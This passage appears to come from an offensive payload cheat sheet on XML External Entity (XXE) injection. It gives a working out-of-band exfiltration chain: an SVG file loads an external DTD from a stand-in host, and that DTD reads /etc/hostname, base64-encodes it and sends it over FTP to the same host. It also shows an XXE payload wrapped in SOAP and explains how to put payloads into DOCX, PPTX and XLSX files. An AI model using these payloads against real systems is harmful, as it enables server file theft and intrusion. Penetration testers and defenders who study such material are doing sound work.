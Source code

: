 **OOB via SVG rasterization**

*xxe.svg*

```xml
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

*xxe.xml*

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```

### XXE inside SOAP

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### XXE inside DOCX file

Format of an Open XML file (inject the payload in any .xml file):

- /_rels/.rels
- [Content_Types].xml
- Default Main Document Part
  - /word/document.xml
  - /ppt/presentation.xml
  - /xl/workbook.xml

Then update the file `zip -u xxe.docx [Content_Types].xml`

Tool : https://github.com/BuffaloWill/oxml_xxe
